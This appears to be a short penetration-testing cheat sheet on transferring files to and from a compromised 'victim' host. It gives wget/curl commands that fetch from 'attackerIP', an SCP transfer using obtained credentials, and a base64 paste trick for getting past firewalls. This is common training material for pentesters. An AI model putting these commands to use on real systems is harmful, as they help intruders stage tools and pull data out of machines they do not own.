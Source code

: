 # Transferring files to/from remote victim

Once we compromised a system we could use different methods to transfer files to/from the victim depending on the situation.

### Using wget or cURL

If the compromised victim has privileges enough to download files we could use wget or curl to copy a file from our own machine.\
\
First go into the directory  that contains the file you want to transfer and run a simple Python HTTP server there with:

```bash
cd /transferDirectory
python3 -m http.server 8080         #8080 as an example port, use whatever

```

Now the server is listening on 8080 in our machine, download the file on the "compromised with code execution" victim with:

```bash
wget http://attackerIP:8080/file
or
curl http://attackerIP:8080/file -o newNameFile

```

Also could be vice-versa with the http server in the victim(if it has python installed) and the attacker downloading via wget/curl.

***

### Using SSH file transfer SCP

Granted we obtained SSH credentials we could use SCP to transfer files from our attacking machine to the victim directly:

```bash
scp /local/dir/fileX user@IP:/remote/dir/fileX
```

***

### Using Base64

If you are not able to transfer files directly, for example because the firewall protection prevents the victim to download files, you could use the base64 trick.\
Consists on encoding the file in base64 without line breaks (`-w 0`) so you can copy every detail from the file:

```bash
base64 fileX -w 0 
```

And paste the result on the compromised machine with:

```bash
echo d2hhdCBhcmUgeW9 ... 1IGxvb2tpbmcgYXQg | base64 -d > fileX
```

To validate that the file transferred correctly we could check and compare the MD5 hash from the original file to the file pasted in the victim system:

```bash
md5sum fileX
```

